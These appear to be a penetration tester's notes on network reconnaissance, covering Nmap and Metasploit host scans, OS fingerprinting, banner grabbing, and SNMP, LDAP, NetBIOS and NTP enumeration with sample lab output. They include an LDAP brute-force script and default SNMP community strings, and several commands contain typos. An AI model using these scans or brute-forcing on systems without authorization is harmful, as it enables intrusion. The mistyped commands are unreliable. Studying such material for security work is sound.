  [*] Nmap: Stats: 0:02:42 elapsed; 248 hosts completed (7 up), 7 undergoing SYN Stealth Scan
  [*] Nmap: SYN Stealth Scan Timing: About 99.58% done; ETC: 04:01 (0:00:01 remaining)
  [*] Nmap: Stats: 0:02:51 elapsed; 248 hosts completed (7 up), 7 undergoing SYN Stealth Scan
  [*] Nmap: SYN Stealth Scan Timing: About 99.99% done; ETC: 04:01 (0:00:00 remaining)
  [*] Nmap: Stats: 0:02:58 elapsed; 248 hosts completed (7 up), 7 undergoing Service Scan
  [*] Nmap: Service scan Timing: About 15.38% done; ETC: 04:01 (0:00:33 remaining)
  [*] Nmap: Nmap scan report for 192.168.101.2
  [*] Nmap: Host is up (0.0064s latency).
  [*] Nmap: Not shown: 998 closed ports
  [*] Nmap: PORT     STATE SERVICE VERSION
  [*] Nmap: 80/tcp   open  http    GoAhead WebServer 2.5.0
  [*] Nmap: |_http-server-header: GoAhead-Webs/2.5.0
  [*] Nmap: | http-title: Redirected
  [*] Nmap: |_Requested resource was http://192.168.101.2/login.asp
  [*] Nmap: 8099/tcp open  unknown
  [*] Nmap: MAC Address: BC:98:89:9D:3C:58 (Fiberhome Telecommunication Technologies)
  [*] Nmap: No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
  [*] Nmap: TCP/IP fingerprint:
  [*] Nmap: OS:SCAN(V=7.91%E=4%D=8/20%OT=80%CT=1%CU=44050%PV=Y%DS=1%DC=D%G=Y%M=BC9889%T
  [*] Nmap: OS:M=611EB96E%P=x86_64-pc-linux-gnu)SEQ(SP=CD%GCD=1%ISR=CF%TI=Z%CI=Z%II=I%T
  [*] Nmap: OS:S=7)OPS(O1=M5B4ST11NW2%O2=M5B4ST11NW2%O3=M5B4NNT11NW2%O4=M5B4ST11NW2%O5=
  [*] Nmap: OS:M5B4ST11NW2%O6=M5B4ST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=1
  [*] Nmap: OS:6A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M5B4NNSNW2%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A
  [*] Nmap: OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M5B4ST11
  [*] Nmap: OS:NW2%RD=0%Q=)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)
  [*] Nmap: OS:T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%U
  [*] Nmap: OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
  [*] Nmap: Network Distance: 1 hop
  [*] Nmap: TRACEROUTE
  [*] Nmap: HOP RTT     ADDRESS
  [*] Nmap: 1   6.41 ms 192.168.101.2
  [*] Nmap: Nmap scan report for 192.168.101.3
  [*] Nmap: Host is up (0.0045s latency).
  [*] Nmap: Not shown: 997 closed ports
  [*] Nmap: PORT    STATE SERVICE  VERSION
  [*] Nmap: 22/tcp  open  ssh      Dropbear sshd 2011.54 (protocol 2.0)
  [*] Nmap: | ssh-hostkey:
  [*] Nmap: |_  1039 6a:79:5a:f8:31:cf:42:57:88:6b:53:74:a5:6e:e4:80 (RSA)
  [*] Nmap: 80/tcp  open  http     BusyBox http 1.19.4
  [*] Nmap: |_http-title: Site doesn't have a title (text/html).
  [*] Nmap: 443/tcp open  ssl/http BusyBox http 1.19.4
  [*] Nmap: |_http-title: Site doesn't have a title (text/plain).
  [*] Nmap: | ssl-cert: Subject: commonName=tplinkwifi.net/countryName=CN
  [*] Nmap: | Not valid before: 2020-04-21T16:00:32
  [*] Nmap: |_Not valid after:  2025-04-20T16:00:32
  [*] Nmap: |_ssl-date: TLS randomness does not represent time
  [*] Nmap: MAC Address: 3C:84:6A:A7:EB:B0 (Tp-link Technologies)
  ```

### Review the Data

- hosts

  Displays the traget information that you have discovered in your searches

  ```
  msf6 > hosts
  
  Hosts
  =====
  
  address          mac                name  os_name   os_flavor  os_sp  purpose  info  comments
  -------          ---                ----  -------   ---------  -----  -------  ----  --------
  192.168.101.2    bc:98:89:9d:3c:58        Linux                2.6.X  server
  192.168.101.3    3c:84:6a:a7:eb:b0        Linux                2.6.X  server
  192.168.101.103  28:6d:cd:4f:88:e7        embedded                    device
  192.168.101.104  28:6d:cd:4f:8a:c6        embedded                    device
  192.168.101.105  28:6d:cd:4e:45:8a        embedded                    device
  192.168.101.109  EC:9B:F3:3C:F8:A2
  192.168.101.110                           Linux                5.X    server
  192.168.101.122  18:db:f2:39:6a:b3        Linux                4.X    server
  ```

### Backing up our data

- db_export
  - Export the data outside of the Metasploit environment
  - Can export as xml or pwdump
    - Xml : Export all the information currently stored in our active workspace
    - Pwdump: Exports everything related to used/gathered credentials

### Setting up modules

- Take the data from the database and use it in our modules

- Works well for auxilliary

- hosts -c address,os_flavor

  ```
  msf6 > hosts -c address,os_name
  
  Hosts
  =====
  
  address          os_name
  -------          -------
  192.168.101.2    Linux
  192.168.101.3    Linux
  192.168.101.103  embedded
  192.168.101.104  embedded
  192.168.101.105  embedded
  192.168.101.109
  192.168.101.110  Linux
  192.168.101.122  Linux
  ```

### Import the data into a module

- Can use R option to import the target data into a module

- Use auxilliary/scanner/portscan/tcp

- hostrs -c address,os_name -S Linux -R

  ```
  msf6 > use auxiliary/scanner/portscan/tcp
  msf6 auxiliary(scanner/portscan/tcp) > hosts -c address,os_name -S Linux -R
  
  Hosts
  =====
  
  address          os_name
  -------          -------
  192.168.101.2    Linux
  192.168.101.3    Linux
  192.168.101.110  Linux
  192.168.101.122  Linux
  
  RHOSTS => 192.168.101.2 192.168.101.3 192.168.101.110 192.168.101.122
  msf6 auxiliary(scanner/portscan/tcp) > run
  
  [+] 192.168.101.2:        - 192.168.101.2:80 - TCP OPEN
  [+] 192.168.101.2:        - 192.168.101.2:8099 - TCP OPEN
  [*] Scanned 1 of 4 hosts (25% complete)
  [+] 192.168.101.3:        - 192.168.101.3:22 - TCP OPEN
  [*] Scanned 1 of 4 hosts (25% complete)
  [+] 192.168.101.3:        - 192.168.101.3:80 - TCP OPEN
  [+] 192.168.101.3:        - 192.168.101.3:443 - TCP OPEN
  [*] Scanned 2 of 4 hosts (50% complete)
  [+] 192.168.101.110:      - 192.168.101.110:22 - TCP OPEN
  [*] Scanned 2 of 4 hosts (50% complete)
  [*] Scanned 2 of 4 hosts (50% complete)
  [*] Scanned 3 of 4 hosts (75% complete)
  [*] Scanned 3 of 4 hosts (75% complete)
  [+] 192.168.101.122:      - 192.168.101.122:22 - TCP OPEN
  [+] 192.168.101.122:      - 192.168.101.122:139 - TCP OPEN
  [+] 192.168.101.122:      - 192.168.101.122:445 - TCP OPEN
  
  ```


## OS and Service Fingerprinting

### Identify the OS

| Device / OS    | Version               | Protocol     | TTL  |
| -------------- | --------------------- | ------------ | ---- |
| AIX            |                       | TCP          | 60   |
| AIX            |                       | UDP          | 30   |
| AIX            | 3.2, 4.1              | ICMP         | 255  |
| BSDI           | BSD/OS 3.1 and 4.0    | ICMP         | 255  |
| Compa          | Tru64 v5.0            | ICMP         | 64   |
| Cisco          |                       | ICMP         | 254  |
| DEC Pathworks  | V5                    | TCP and UDP  | 30   |
| Foundry        |                       | ICMP         | 64   |
| FreeBSD        | 2.1R                  | TCP and UDP  | 64   |
| FreeBSD        | 3.4, 4.0              | ICMP         | 255  |
| FreeBSD        | 5                     | ICMP         | 64   |
| HP-UX          | 9.0x                  | TCP and UDP  | 30   |
| HP-UX          | 10.01                 | TCP and UDP  | 64   |
| HP-UX          | 10.2                  | ICMP         | 255  |
| HP-UX          | 11                    | ICMP         | 255  |
| HP-UX          | 11                    | TCP          | 64   |
| Irix           | 5.3                   | TCP and UDP  | 60   |
| Irix           | 6.x                   | TCP and UDP  | 60   |
| Irix           | 6.5.3, 6.5.8          | ICMP         | 255  |
| juniper        |                       | ICMP         | 64   |
| MPE/IX (HP)    |                       | ICMP         | 200  |
| Linux          | 2.0.x kernel          | ICMP         | 64   |
| Linux          | 2.2.14 kernel         | ICMP         | 255  |
| Linux          | 2.4 kernel            | ICMP         | 255  |
| Linux          | Red Hat 9             | ICMP and TCP | 64   |
| MacOS/MacTCP   | 2.0.x                 | TCP and UDP  | 60   |
| MacOS/MacTCP   | X (10.5.6)            | ICMP/TCP/UDP | 64   |
| NetBSD         |                       | ICMP         | 255  |
| Netgear FVG318 |                       | ICMP and UDP | 64   |
| OpenBSD        | 2.6 & 2.7             | ICMP         | 255  |
| OpenVMS        | 07.01.2002            | ICMP         | 255  |
| OS/2           | TCP/IP 3.0            |              | 64   |
| OSF/1          | V3.2A                 | TCP          | 60   |
| OSF/1          | V3.2A                 | UDP          | 30   |
| Solaris        | 2.5.1, 2.6, 2.7, 2.8  | ICMP         | 255  |
| Solaris        | 2.8                   | TCP          | 64   |
| Stratus        | TCP_OS                | ICMP         | 255  |
| Stratus        | TCP_OS (14.2-)        | TCP and UDP  | 30   |
| Stratus        | TCP_OS (14.3+)        | TCP and UDP  | 64   |
| Stratus        | STCP                  | ICMP/TCP/UDP | 60   |
| SunOS          | 4.1.3/4.1.4           | TCP and UDP  | 60   |
| SunOS          | 5.7                   | ICMP and TCP | 255  |
| Ultrix         | V4.1/V4.2A            | TCP          | 60   |
| Ultrix         | V4.1/V4.2A            | UDP          | 30   |
| Ultrix         | V4.2 – 4.5            | ICMP         | 255  |
| VMS/Multinet   |                       | TCP and UDP  | 64   |
| VMS/TCPware    |                       | TCP          | 60   |
| VMS/TCPware    |                       | UDP          | 64   |
| VMS/Wollongong | 1.1.1.1               | TCP          | 128  |
| VMS/Wollongong | 1.1.1.1               | UDP          | 30   |
| VMS/UCX        |                       | TCP and UDP  | 128  |
| Windows        | for Workgroups        | TCP and UDP  | 32   |
| Windows        | 95                    | TCP and UDP  | 32   |
| Windows        | 98                    | ICMP         | 32   |
| Windows        | 98, 98 SE             | ICMP         | 128  |
| Windows        | 98                    | TCP          | 128  |
| Windows        | NT 3.51               | TCP and UDP  | 32   |
| Windows        | NT 4.0                | TCP and UDP  | 128  |
| Windows        | NT 4.0 SP5-           |              | 32   |
| Windows        | NT 4.0 SP6+           |              | 128  |
| Windows        | NT 4 WRKS SP 3, SP 6a | ICMP         | 128  |
| Windows        | NT 4 Server SP4       | ICMP         | 128  |
| Windows        | ME                    | ICMP         | 128  |
| Windows        | 2000 pro              | ICMP/TCP/UDP | 128  |
| Windows        | 2000 family           | ICMP         | 128  |
| Windows        | Server 2003           |              | 128  |
| Windows        | XP                    | ICMP/TCP/UDP | 128  |
| Windows        | Vista                 | ICMP/TCP/UDP | 128  |
| Windows        | 7                     | ICMP/TCP/UDP | 128  |
| Windows        | Server 2008           | ICMP/TCP/UDP | 128  |
| Windows        | 10                    | ICMP/TCP/UDP | 128  |

- Use simple **ping utility** and look for the TTL values to determine the target OS

  

- Use **wireshark** to look for the TTL values in order to determine target OS

  

- Identify the OS using **p0f**
  P0f is a tool which is a passive traffic fingerprinting technique used to detect the machines behind any TCP/IP communications without interfering. It also used to support in evaluating other aspects of the remote systems. By checking the passive network traffic, pOf can identify the operating system on remote machines.
  
  **Features:**
  
  - Fast identification of the  OS and software on both ends of vanilla TCP connection, especially where Nmap probes are blocked 
  - Estimates the distance of remote system and calculate its uptime
  - Network monitoring
  
  * Detection of unauthorized network interconnects
  
  Type the following command to determine the target OS using pOf:
  
  - Syntax: p0f -i any -p -o /temp/sniff.log
        -i: listen on specified network interface
        -p: it put the listening interface in promiscuous mode
        -o: write information to the specified log file
  
  ```
  #p0f -i any -p -o /tmp/sniff.log
  client   = 192.168.101.110/36293
  | link     = Ethernet or modem
  | raw_mtu  = 1500
  |
  `----
  
  .-[ 192.168.101.110/33801 -> 192.168.101.122/3814 (syn) ]-
  |
  | client   = 192.168.101.110/33801
  | os       = Linux 2.2.x-3.x
  | dist     = 0
  | params   = generic
  | raw_sig  = 4:64+0:0:1460:mss*44,10:mss,sok,ts,nop,ws:df,id+:0
  |
  `----
  ```
  
- Nmap

  OS version of the remote host is identified by using “Nmap” tool and the result will be based on various aspects such as MAC address, open/closed ports of default OS installation, and operating system fingerprints that are already been submitted to Nmap database by other users.

  To identify the operating system on target machine, use the following command:

  ```
  nmap -O [target IP address]
  ```

  Note: You can also add -v command after the above command to identify OS with verbosity feature.

  **Additional commands to identify 0S in detail are mentioned below:**

  - nmap -sV -0 -v [target IP address]
    This command enables the OS version detection.

  * nmap -T4 -A -v [target IP address]
  In this command, "-A" performs OS checking and version checking and "-T4” is used for the speed template, that is, it tells Nmap to quickly perform the scan. The speed template ranges from 0 to 5, 0—least, and 5 being the fastest.
  * Syntax: --osscan-Limit
  This feature limits OS detection to promising targets,
  + Syntax: --oscan-guess; --fuzzy
    This feature can be used to guess OS detection results,

  + Syntax; --max-os-tries
  This feature can be used to set the maximum number of OS detection tries against a
  target.

- Zenmap

  You can also use Zenmap tool to perform the OS detection. Type the following command in the Command field and type the target IP address in the Target field to perform the OS scan on
   target machine. An example is shown in the below screenshot

    Syntax: nmap -sV -T4 -0 -F -version-light [IP address]

  In the above command,
    -sV: probe open ports to determine the version info/service
    -T: [0-5] set timing template (higher is faster)
    -0: Enable 0S detection
    -F: Fast mode
    =version-Light: limit to most likely probes (intensity 2)

## SMB OS Discovery

```
# nmap --script smb-os-discovery.nse --script-args=unsafe=1 -p 445 10.10.10.10
```

## Manual Banner Grabbing

- telnet

- netcat

  ```
  #nc -vn 192.168.101.122 22
  (UNKNOWN) [192.168.101.122] 22 (ssh) open
  SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.3
  ```

  

  

### Banner Grabbibg with dmitry

```
#dmitry -pb 192.168.101.122
Deepmagic Information Gathering Tool
"There be some deep magic going on"

ERROR: Unable to locate Host Name for 192.168.101.122
Continuing with limited modules
HostIP:192.168.101.122
HostName:

Gathered TCP Port information for 192.168.101.122
---------------------------------

 Port		State

22/tcp		open
>> SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.3
```

### Banner Grabbing with Python

```
#python
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import socket
>>> bangrab = socket.socket(socket.AF_INET, socket .SOCK_STREAM)
>>> bangrab.connect(("192.168.101.122", 22))
>>> bangrab. recv (4096)
b'SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.3\r\n'
>>> bangrab.close()
>>> exit()
```

## Identify the Services

- Nmap

  ```
  #nmap -sV [IP Address]
  ```

  -o: option to guess the operating system

- Zenmap

  ```
  #nmap -T4 -a v [IP Address]
  ```

### Identifiying IPSec-Enabled Devices and Hosts

While performing the service scans, you must make sure to identify the loopholes or vulnerable services that exist in the current security implementation and need to change the respective configurations accordingly to protect against the known problems. One of such loopholes is ISAKMP service.

You need to identify the IPsec-based VPNs, because most IPsec-based VPNs use ISAKMP, a part of IKE, to establish, negotiate, modify, and delete security associations (SA) and cryptographic keys in a VPN environment. You can use tools like Nmap to identify the ISAKMP service running on UDP port 500. You can do this by using the following Nmap command:

```
nmap -sU -p 500 [IP address]
```

In the above command, -sU is used for UDP scan and -p is used for specified port scan.


### Identifying VoIP Enabled Devices and Hosts

VoIP is mainly used for telecommunication purpose in an organization. The main features of VoIP are to record calls and log results, views of caller details, providing multiple extensions. Due to this features, the VoIPs are prone to external and internal attacks. VoIP penetration testing identifies the type of risks to these telecommunication-based systems which are usually employed in an organization.

VoIP uses SIP (session initiation protocol) to enable voice and video calls over an IP network. SIP generally uses UDP/TCP ports **2000**, **2001**, **5050**, and **5061**. You can use svmap scanner to identify SIP devices and PBX servers on a target network. Run the following symap command to fingerprint VoIP enabled devices:

```
#svmap [IP Address Range]
```


### Perform SSH Fingerprinting 
SSH is one of the popularly used applications, which provides security for remote devices. With the help of cryptography, it provides strong authentication and confidentiality. You need to identify the types and versions of SSH software running on the target. You can use SSH version scanner such as ssh_version auxiliary module in the Metasploit framework (MSF) to determine versions of SSH software.

To detect the SSH version on the network, type the following command in a MSF:

- Syntax: search ssh_version

  ```
  msf6 > search ssh_version
  
  Matching Modules
  ================
  
     #  Name                                       Disclosure Date  Rank    Check  Description
     -  ----                                       ---------------  ----    -----  -----------
     0  auxiliary/fuzzers/ssh/ssh_version_15                        normal  No     SSH 1.5 Version Fuzzer
     1  auxiliary/fuzzers/ssh/ssh_version_2                         normal  No     SSH 2.0 Version Fuzzer
     2  auxiliary/fuzzers/ssh/ssh_version_corrupt                   normal  No     SSH Version Corruption
     3  auxiliary/scanner/ssh/ssh_version                           normal  No     SSH Version Scanner
  
  
  Interact with a module by name or index. For example info 3, use 3 or use auxiliary/scanner/ssh/ssh_version
  ```

Now, to gather the information related to ssh_version, type the following command that we   got as a result for the previous search to enter into auxiliary (ssh_version) mode.

- Syntax: use auxiliary/scanner/ssh/ssh_version
  Now type “info” as shown in the below screenshot to extract the required details.

  ```
  msf6 > use auxiliary/scanner/ssh/ssh_version
  msf6 auxiliary(scanner/ssh/ssh_version) > info
  
         Name: SSH Version Scanner
       Module: auxiliary/scanner/ssh/ssh_version
      License: Metasploit Framework License (BSD)
         Rank: Normal
  
  Provided by:
    Daniel van Eeden <metasploit@myname.nl>
  
  Check supported:
    No
  
  Basic options:
    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<pa
                                        th>'
    RPORT    22               yes       The target port (TCP)
    THREADS  1                yes       The number of concurrent threads (max one per host)
    TIMEOUT  30               yes       Timeout for the SSH probe
  
  Description:
    Detect SSH Version.
  
  References:
    http://en.wikipedia.org/wiki/SecureShell
  ```

  ```
  msf6 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.101.122
  RHOSTS => 192.168.101.122
  msf6 auxiliary(scanner/ssh/ssh_version) > run
  
  [+] 192.168.101.122:22    - SSH server version: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.3 ( service.version=8.2p1 openssh.comment=Ubuntu-4ubuntu0.3 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:8.2p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=20.04 os.cpe23=cpe:/o:canonical:ubuntu_linux:20.04 service.protocol=ssh fingerprint_db=ssh.banner )
  [*] 192.168.101.122:22    - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
  
  

### Displaying Services within Metasploit

#### Services Data

```
msf6 > services -c port,proto,created_at 192.168.101.122
Services
========

host             port  proto  created_at
----             ----  -----  ----------
192.168.101.122  22    tcp    2021-08-19 20:05:06 UTC
192.168.101.122  139   tcp    2021-08-19 20:05:06 UTC
192.168.101.122  445   tcp    2021-08-19 20:05:06 UTC
192.168.101.122  8000  tcp    2021-08-19 20:05:06 UTC
192.168.101.122  9000  tcp    2021-08-19 20:05:06 UTC
```

#### Services Port State

```
msf6 > services -c port,proto,state -p 1-300
Services
========

host             port  proto  state
----             ----  -----  -----
192.168.101.2    80    tcp    open
192.168.101.3    22    tcp    open
192.168.101.3    80    tcp    open
192.168.101.110  22    tcp    open
192.168.101.122  22    tcp    open
192.168.101.122  139   tcp    open
```


## Map the Internal Network

Map the Internal Network to Identify:

- Number of subnets

- Number of hosts

- Operating systems running of each hosts

  


## Enumeration

Enumeration is one of the crucial phases in penetration testing, because the information collected from the enumeration can be directly used for system exploitation. Enumeration is the process of extracting usernames, machine names, network resources, shares, IP tables, routing tables, SNMP and DNS details, and services from a system or network.

### Perform Service Enumeration 
- Enumeration is performed to create active connections with computer system and perform directed queries to gain more information about the organization’s network
- Extracted information is used to identify system attack points and perform password attacks to gain
  unauthorized access to information system resources
- It allows you to gather information about network resources and shares, routing tables, audit and service settings, SNMP and DNS details, machine names, users and groups, applications and banners, etc.
- Try various enumeration techniques such as NetBIOS enumeration, SNMP enumeration, and so on, to collect the information
- Use tools such as SuperScan, Hyena, and Winfingerprint to enumerate users 

### Enumeration Tools

#### SuperScan
Source: https://www.mcafee.com
SuperScan is a connection-based TCP port scanner, pinger, and hostname resolver. It performs ping sweeps and scans any IP range with multi-threading and asynchronous techniques.


#### Winfingerprint

Source: https://github.com

Winfingerprint is a host/network enumeration scanner. It is capable of performing SMB, TCP, UDP, ICMP, RPC, and SNMP scans. Winfingerprint input options include IP range (Netmask and Inverted Netmask supported), IP list, single host, and neighborhood. Using SMB, Winfingerprint can enumerate OSs, users, groups, SIDs, password policies, services, service packs and hotfixes, NETBIOS shares, transports, sessions, disks, security event log, and time of day utilizing NT domain (NET*), Active Directory, or WMI application programing interfaces (APIs).


### Enumeration Targets

- TCP 53 : DNS Zone Transfer
- UDP 137 : NetBIOS Name Service
- TCP 139 : NetBIOS Session Service (SMB over NetBIOS)
- UDP 161 : Simple Network Management Protocol (SNMP)
- TCP/UDP 389 : Lightweight Directory Access Protocol (LDAP)
- TCP 445 : SMB over TCP/IP
- TCP/UDP 3268 : Global Catalog Service

### Enumeration Tools


#### Nbststat

Source: https://docs.microsoft.com
Nbtstat is a Windows utility that helps in troubleshooting NETBIOS name-resolution problems. The Nbtstat command removes and corrects preloaded entries using a number of case-sensitive switches. It displays NetBIOS over TCP/IP protocol statistics, NetBIOS name tables for both local and remote computers, and the NetBIOS name cache. Nbtstat allows a refresh of the NetBIOS name cache and the names registered
with Windows Internet Name Service. For any additional help, type the Nbtstat command without parameters.

Following is the syntax used for performing Nbtstat:
Syntax: nbtstat [-a RemoteName] [-A IPAddress] [-c] [-n] [-r] [-R] [-RR] [-s] [-S] [Interval]

The table shown below displays various Nbtstat parameters and their respective
functions:

| Nbstat Parameters | Function                                                     |
| ----------------- | ------------------------------------------------------------ |
| -a RemoteName     | Displays the NetBIOS name table of a remote computer, where Displays the NetBIOS name table of a remote computer |
| -A IPAddress      | Displays the NetBIOS name table of a remote computer, specified by the IP address (in dotted decimal notation) of the remote computer |
| -c                | Lists the contents of the NetBIOS name cache, the table of NetBIOS names, and their resolved IP addresses |
| -n                | Displays the names registered locally by NetBIOS applications such as the server and redirector |
| -r                | Displays a count of all names resolved by broadcast or WINS server |
| -R                | Purges the name cache and reloads all #PRE entries from LMHOSTS. |
| -RR               | Releases and reregisters all names with the name server      |
| -s                | Lists the NetBIOS sessions table converting destination IP addresses to computer NetBIOS names. |
| -S                | Lists the current NetBIOS sessions and their status with the IP addresses |
| Interval          | Redisplays selected statistics, pausing the number of seconds specified in interval between each display |

To get the list of NetBIOS name cache, type which contains name-to-address mapping for other computers:

- Syntax: nbtstat -c

  

To display the NetBIOS name table of a remote computer, where RemoteName is the NetBIOS computer name of the remote computer:

- Syntax: nbtstat.exe -a [IP address] 

  

#### Hyena

Source: https://www.systemtools.com

Explorer-style interface for all operations. It supports management of users, groups (both local and global), shares, domains, computers, services, devices, events, files, printers, print jobs, sessions, open files, disk space, user rights, messaging, exporting, job scheduling, processes, and printing. It shows shares and user logon names for Windows servers and domain controllers.

It displays a graphical representation of Microsoft Terminal Services, Microsoft Windows Network, Web Client Network, and so on.

- Group member matrix: Presents all members of multiple groups in a simple grid including direct, indirect (nested), and primary membership. 
- Active editor improvements: The new release of Hyena includes new feature enhancements to the editor, including support for multivalued attributes and account expiration date as well as multi-selection and update capabilities.


#### Nbtscan

```
#nbtscan -v -s : 192.168.101.0/24
192.168.101.0	Sendto failed: Permission denied
192.168.101.122:OWENBOX        :00U
192.168.101.122:OWENBOX        :03U
192.168.101.122:OWENBOX        :20U
192.168.101.122:__MSBROWSE__:01G
192.168.101.122:WORKGROUP      :00G
192.168.101.122:WORKGROUP      :1dU
192.168.101.122:WORKGROUP      :1eG
192.168.101.122:MAC:00:00:00:00:00:00
192.168.101.113:DESKTOP-B466P06:20U
192.168.101.113:DESKTOP-B466P06:00U
192.168.101.113:WORKGROUP      :00G
192.168.101.113:WORKGROUP      :1eG
192.168.101.113:MAC:60:6c:66:af:04:e2
192.168.101.255	Sendto failed: Permission denied
```

## SNMP

- SNMP is a gift
- Database full of information
- Default community name of public and private
- Runs on UDP port 161

### Check SNMP

```
nmap -sU -p 161 [IP Address]
```

### Enumerate database

```
snmpwalk -Os -c public -v 1 [IP address]
```

### SNMP and Nmap

- Multiple scripts available

  ```
  #ls -l /usr/share/nmap/scripts/ | grep snmp
  -rw-r--r-- 1 root root  7814 Oct 12  2020 snmp-brute.nse
  -rw-r--r-- 1 root root  4388 Oct 12  2020 snmp-hh3c-logins.nse
  -rw-r--r-- 1 root root  5216 Oct 12  2020 snmp-info.nse
  -rw-r--r-- 1 root root 28644 Oct 12  2020 snmp-interfaces.nse
  -rw-r--r-- 1 root root  5978 Oct 12  2020 snmp-ios-config.nse
  -rw-r--r-- 1 root root  4156 Oct 12  2020 snmp-netstat.nse
  -rw-r--r-- 1 root root  4431 Oct 12  2020 snmp-processes.nse
  -rw-r--r-- 1 root root  1867 Oct 12  2020 snmp-sysdescr.nse
  -rw-r--r-- 1 root root  2570 Oct 12  2020 snmp-win32-services.nse
  -rw-r--r-- 1 root root  2739 Oct 12  2020 snmp-win32-shares.nse
  -rw-r--r-- 1 root root  4713 Oct 12  2020 snmp-win32-software.nse
  -rw-r--r-- 1 root root  2016 Oct 12  2020 snmp-win32-users.nse
  ```

### Perform SNMP Enumeration

SNMP contains two passwords for configuring and accessing the SNMP agent from the management station.

The two SNMP passwords are:

- Read community string
  Configuration of the device or system can be viewed with the help of this password. These strings are public.

- Read/Write community string
  Configuration on the device can be changed or edited using this password. These strings are private.
  When administrators leave the community strings at the default setting, you can use these default community strings (passwords) for changing or viewing the configuration of the device or system. You can enumerate SNMP to extract information about network resource (such as hosts, routers, devices, and shares) and network information such as ARP tables, routing tables, device specific information, and traffic statistics. 

  You can use tools such as OpUtils, Engineer’s Toolset, and so on NetScanTools Pro, to
  perform SNMP enumeration.

  - **OpuUtils**
    Source: https://www.manageengine.com
    OpUtils is switch port and IP address management software. It contains a collection of tools that network engineers can use to monitor, diagnose, and troubleshoot networking issues. With OpUtils, you can manage IP addresses, map switch ports, detect rogue devices, monitor bandwidth usage, monitor DHCP servers, backup Cisco config files, view SNMP traps sent from network devices, get MAC IP lists, monitor and troubleshoot the network, and so on.

    

  ## LDAP Enumeration

### Perform LDAP Enumeration
Various protocols enable communication and manage data transfer between network resources. All  of these protocols carry valuable information about network resources along with the data. An external user who is able to enumerate that information by manipulating the protocols can break into the network and may misuse the network resources. The LDAP is one such protocol that accesses the directory listings. This topic focuses on LDAP enumeration, information extracted via LDAP enumeration, and LDAP enumeration tools.

LDAP accesses directory listings within an active directory or from other directory services. LDAP is a hierarchy or logical form of a directory, similar to a company’s organizational chart. It uses DNS for quick lookups and fast resolution of queries. A client starts an LDAP session by connecting to a directory system agent (DSA), typically on TCP port 389, and sends an operation request to the DSA. Basic encoding rules transmit information between the client and the server. You can anonymously query the LDAP service for sensitive information (such as usernames, addresses, departmental details, and server names), which you can use to launch attacks.

You can use tools such as Softerra LDAP Administrator, LDAP Admin Tool, and LDAP Account Manager, to perform LDAP enumeration.

- **Softerra LDAP Administrator**

  Source: https://www.|dapadministrator.com

  Softerra LDAP administrator is an LDAP administration tool that works with LDAP servers such as Active Directory, Novell Directory Services, and Netscape/iPlanet. It browses and manages LDAP directories. It provides a wide variety of features essential for LDAP development, deployment, and administration of directories.

  It provides directory search facilities, bulk update operations, and group-membership management facilities and supports LDAP-SQL, which allows managing LDAP entries using SQL-like syntax.

  

- Nmap

  When we discover LDAP use Nmap to brute force the naming data

  ```
  namp -sS -sU -p 389 -v [IP Address] -oA ldap-script-results --open --script ldap-brute,ldap-rootdse
  ```

   

  Extract Directory Services Data

  

### Perform NTP Enumeration

NTP is designed to synchronize clocks of networked computers. It uses UDP port 123 as its primary means of communication. NTP can maintain time to within 10 ms (1/100 s) over the public Internet and can achieve accuracies of 200 1s or better in local area networks under ideal conditions.

You can query NTP server to gather valuable information such as:

- List of hosts connected to NTP server

- Client's IP addresses in a network, their system names, and OSs

- Internal IPs can also be obtained if the NTP server is in the DMZ

**NTP Enumeration Commands**
NTP enumeration commands include ntptrace, ntpdc, and ntpq to query the NTP server for valuable information.

* **ntptrace**
  This command determines from where the NTP server gets time and follows the chain of NTP servers back to its prime time source.

  Syntax: ntptrace [-vdn] [-r retries] [-t timeout] [servername/IP_address] [...]

  Following are the options that you can use along with ntptrace command:

  | Options    | Description                                                  |
  | ---------- | ------------------------------------------------------------ |
  | - a        | Diplay debugsing cutout                                      |
  | -n         | Does not print host names only IP addresses; may be useful if a nameserver is down |
  | -r retries | Sets the number of retransmission attempts for each host (default = 5) |
  | -t timeout | Set the retransmission timeout (in seconds) (default = 2)    |
  | -v         | Prints verbose information about the NTP servers             |

  

- **ntpdc**

  Syntax: ntpdc [-ilnps] [-c command] [hostname/IP_address] [...]
  This command queries the ntpdc daemon about its current state and requests changes in that state.
  Following are the options that you can use along with ntpdc command:

  | Options | Description                                                  |
  | ------- | ------------------------------------------------------------ |
  | -c      | Following argument is interpreted as an interactive format command; multiple -c options may be given |
  | -i      | Force ntpdc to operate in interactive mode                   |
  | -l      | Obtain a list of peers known to the server(s); this switch is equivalent to -c listpeers |
  | -n      | Output all host addresses in dotted-quad numeric format rather than host names |
  | -p      | Print a list of the peers as well as a summary of their state; this is equivalent to -c<br/>peers |
  | -s      | Print a list of the peers as well as a summary of their state; this is equivalent to -c<br/>dmpeers |

  **Note**: Type “?” command to get the ntpdc queries where you can be used to obtain additional NTP server information.

